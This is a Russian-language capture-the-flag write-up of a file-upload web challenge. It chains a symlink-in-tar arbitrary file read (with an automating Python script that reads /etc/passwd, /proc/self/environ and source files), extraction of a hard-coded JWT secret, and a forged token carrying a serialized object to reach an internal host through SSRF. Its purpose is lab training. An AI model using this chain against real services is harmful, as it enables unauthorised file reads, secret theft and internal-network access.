



Описание задачи:

```
Перед вами новый модный сервис, в котором можно создать профиль и загрузить личное фото.  
Но как часто бывает разработчики пили слишком много кофе, когда тестировали его....  

Почувствуйте себя настоящими cyber исследователями, найдите и проэксплуатируйте уязвимости, связанные с загрузкой файлов...

А когда доберетесь до бекенда веб-приложения вас будет ждать приятный сюрприз....
```

При входе на сайт нас встречает система аутентификации:



Регистрируемся и смотрим, какой функционал есть на сайте:



Сайт предоставляет возможность загружать аватары. Интересно, что в предложении загрузки упомянуты архивы. Одной из возможных проблем загрузки архивов может быть небезопасная разархивация символьных ссылок, с помощью которых возможно читать файлы не из архива.

Проверить безопасность работы работы с сылками можно, погдотовив специальный tar архив следующим образом:
```bash
ln -sT /etc/passwd link
tar -cf x.tar link
```

Пробуем загрузить полученный архив и видим, что, действительно, нам удалось прочитать файл по его полному пути:

```
HTTP/1.1 200 
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Type: image/jpeg
Content-Length: 922
Date: Thu, 17 Apr 2025 16:59:36 GMT
Keep-Alive: timeout=60
Connection: keep-alive

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Получается, на сайте присутствует уязвимость, позволяющая читать файлы. Для удобства автоматизируем чтение файлов:

```python
#!/usr/bin/env python3

from pwn import log
import requests
import sys
import os
import time

s = requests.Session()
t = 'http://localhost:8000'
u = 's41nt0l3xus'
p = 'kek'

def login(u, p):
  r = s.post(f'{t}/api/auth/login', json={'username': u, 'password': p})
  log.debug(r.text)
  return r

def upload(file):
  r = s.post(f'{t}/api/profile/avatar', files={'file': open(file, 'rb')})
  log.debug(r.text)
  return r

def read():
  x = int(time.time())
  r = s.get(f'{t}/api/profile/avatar?{x}')
  return r

def profile():
  r = s.get(f'{t}/api/profile')
  log.debug(r.text)
  return r

def readfile(file):
  login(u, p)
  os.system('rm -f x.tar link')
  os.system(f'ln -sT {file} link')
  os.system('tar -cf x.tar link')
  upload('x.tar')
  profile()
  r = read()
  return r

if __name__ == '__main__':
  r = readfile(sys.argv[1])
  if len(sys.argv) >= 3:
    with open(sys.argv[2], 'wb') as f:
      f.write(r.content)
  else:
    try:
      print(r.text, end='')
    except:
      print(r.content)
```

Какие же файлы можно прочитать? Не зная заранее файловую структуру приложения, можно попробовать читать информацию из системных файлов, пути к которым одинаковы на большинстве систем. Например, можно попробовать заглянуть в `/proc/self/`. По этому пути можно найти много интересной информации о текущем процессе. Наиболее интересное:

`/proc/self/envrion `- переменные окружения:

```bash
PATH=/usr/local/openjdk-17/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=ed18c0a36e68
SPRING_PROFILES_ACTIVE=prod
JAVA_HOME=/usr/local/openjdk-17
LANG=C.UTF-8
JAVA_VERSION=17.0.2
MAVEN_HOME=/usr/share/maven
MAVEN_CONFIG=/root/.m2
HOME=/nonexistent
```

`/proc/self/cmdline` - аргументы (argv) запуска программы:

```bash
java -jar target/bb-task-0.0.1-SNAPSHOT.jar
```
Из этой информации можно сделать следующие выводы:
1. Приложение использует java, фреймворк spring и систему сборки maven
2. Путь к скомпилированному приложению - `target/bb-task-0.0.1-SNAPSHOT.jar`

Логично следующим шагом достать файл приложения и декомпилировать его (например, с помощью [JADX](https://github.com/skylot/jadx)). 

В первую очередь в декомпиляторе стоит обратить внимание на иерархическую стуктуру классов:



Вполне вероятно, что она соответствует иерархии файлов с исходным кодом приложения. Учитывая, что приложение использует maven для организации проекта, можно попытаться прочитать файлы с исходным кодом, опираясь на стандартную для maven организацию файлов в проекте:
```
project-root/
│
├── src/
│   ├── main/
│   │   ├── java/         # Main Java source code
│   │   ├── resources/    # Main resources (config files, properties, 
│
├── target/               # Compiled classes, JAR/WAR files (generated by Maven)
│
└── pom.xml
```
При такой файловой структуре, например, можно попробовать прочитать файл `src/main/java/com/bizone/bbtask/CtfTaskApplication.java`:
```java
package com.bizone.bbtask;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
public class CtfTaskApplication {
    public static void main(String[] args) {
        SpringApplication.run(CtfTaskApplication.class, args);
    }
}
```
Получилось! Теперь можно извлечь весь исходный код и приступить к его изучению. Впрочем, можно провести изучение имея только JAR архив приложения и декомпилятор, но раз у нас есть возможност прочитать исходный код, то почему бы ей не воспользоваться.

После изучения исходного кода можно отметить следующие моменты:
1. В приложение статически встроен JWT секрет, используемый для подписи токенов, и теперь мы его знаем. Прочитать его можно как из JAR файла, так и из файла `src/main/resources/application.properties`:
```
spring.datasource.url=jdbc:sqlite:file:memdb1?mode=memory&cache=shared&journal_mode=OFF
spring.datasource.driver-class-name=org.sqlite.JDBC
spring.jpa.database-platform=org.hibernate.community.dialect.SQLiteDialect
spring.jpa.hibernate.ddl-auto=create-drop
spring.jpa.properties.hibernate.id.new_generator_mappings=false
server.port=8000
spring.servlet.multipart.max-file-size=64KB
spring.servlet.multipart.max-request-size=64KB

jwt.secret=m5Dwc3h+m5afPwnEpEO6oxraO69A5WU7YS/KJXNUFAc=
```
2. В качестве payload в JWT токене используется закодированный в base64 сериализованный объект. Причём при десериализации приложение проверяет, что объект принадлежит одному из разрешенных классов:
```java
            ois.setObjectInputFilter(filterInfo -> {
                Class<?> clazz = filterInfo.serialClass();
                if (clazz == null) {
                    return ObjectInputFilter.Status.UNDECIDED;
                }
                if (clazz == Long.class || clazz == String.class || clazz == Number.class || clazz.getName().startsWith("com.bizone.bbtask.model")) {
                    return ObjectInputFilter.Status.ALLOWED;
                }
                return ObjectInputFilter.Status.REJECTED;
            });
```
3. Помимо используемого в приложение для сериализации пользователей класса `UserDto` есть ещё один разрешенный, но не используемый явно, класс `UserExtDto`, который отличается тем, что загружает аватар с помощью HTTP запроса:
```java
    @Override
    public byte[] getAvatar() throws IOException {
        URL url = new URL(avatarPath);
        HttpURLConnection connection = (HttpURLConnection) url.openConnection();
        connection.setRequestMethod("GET");

        try (InputStream inputStream = connection.getInputStream();
             ByteArrayOutputStream outputStream = new ByteArrayOutputStream()) {

            byte[] buffer = new byte[4096];
            int bytesRead;
            while ((bytesRead = inputStream.read(buffer)) != -1) {
                outputStream.write(buffer, 0, bytesRead);
            }
            return outputStream.toByteArray();
        } catch (Exception e) {
            e.printStackTrace();
            throw new RuntimeException(e.toString(), e);
        }
    }
```

Что с этим можно cделать? Зная JWT секрет, мы можем подписать произвольный токен, а значит можем отдать приложению объект класса `UserExtDto`, тем самым сделав HTTP запрос на стороне сервера, что является SSRF уязвимостью, т.к. никакой валидации URL при осуществлении запроса приложение не осуществляет.

Как же сделать запрос? Имея на руках исходный код приложения, можно его переиспользовать для создания, например, следующей консольной программы для генерации нужного нам токена:
```java
public class Exploit {
    public static void main(String[] args) {
        UserExtDto user = new UserExtDto(777L, "exploit", args[0]);
        JwtService jwt = new JwtService();
        String token = jwt.generateToken(user);
        System.out.println(token);
    }
}
```
Сборку этой программы можно осуществить по образу и подобию оригинального приложения.

Таким образом мы получаем инструмент для генерации подписанного JWT токена, несущего в себе сериализованный объект `UserExtDto` для осуществления запросов на стороне сервера. 

Теперь достачно попытаться просмотреть аватар, используя сгенерированный  токен в cookies (запрос на https://localhost:8000):

```html
HTTP/1.1 200 
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Type: image/jpeg
Content-Length: 1570
Date: Thu, 17 Apr 2025 17:06:21 GMT
Keep-Alive: timeout=60
Connection: keep-alive

<!DOCTYPE html>

<head>
    <title>Login</title>
    <link rel="stylesheet" href="/css/style.css">
</head>

<body>
    <div class="container">
        <div class="auth-card">
            <h2>Login</h2>
            <form method="POST" id="loginForm">
                <input id="username" type="text" name="username" placeholder="Username" required>
                <input id="password" type="password" name="password" placeholder="Password" required>
                <button type="submit">Login</button>
            </form>
            <p>Don't have an account? <a href="/register">Register</a></p>
        </div>
    </div>
    <script>
        document.getElementById('loginForm').addEventListener('submit', async (e) => {
            e.preventDefault();
            try {
                const response = await fetch('/api/auth/login', {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({
                        username: document.getElementById('username').value,
                        password: document.getElementById('password').value
                    }),
                    credentials: 'include'
                });
                const data = await response.json();
                if (response.ok) {
                    window.location.href = "/profile";
                } else {
                    alert(data.message);
                }
            } catch (error) {
                alert(error);
            }
        });
    </script>
</body>

</html>
```
Ожидаемо, получаем страницу аутентификации приложения. 

Осталось понять, как использовать эту возможность осуществления запросов. Можно попробовать заглянуть в файл `/etc/hosts`:
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::  ip6-localnet
ff00::  ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.16.90.11    adminsrv
172.16.90.10    ed18c0a36e68
```

Внимание тут привлекает некий хост `adminsrv`. Попробуем сделать запрос на http://adminsrv:80, и... Получаем нечто похожее на флаг

```
HTTP/1.1 200 
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Type: image/jpeg
Content-Length: 103
Date: Thu, 17 Apr 2025 17:08:06 GMT
Keep-Alive: timeout=60
Connection: keep-alive

You just got into restricted area! bb_flag{Y0u_j4st_g0t_uns3r14l1zed_73179334f7f3xxxbebebexxx790faf3d!}
```
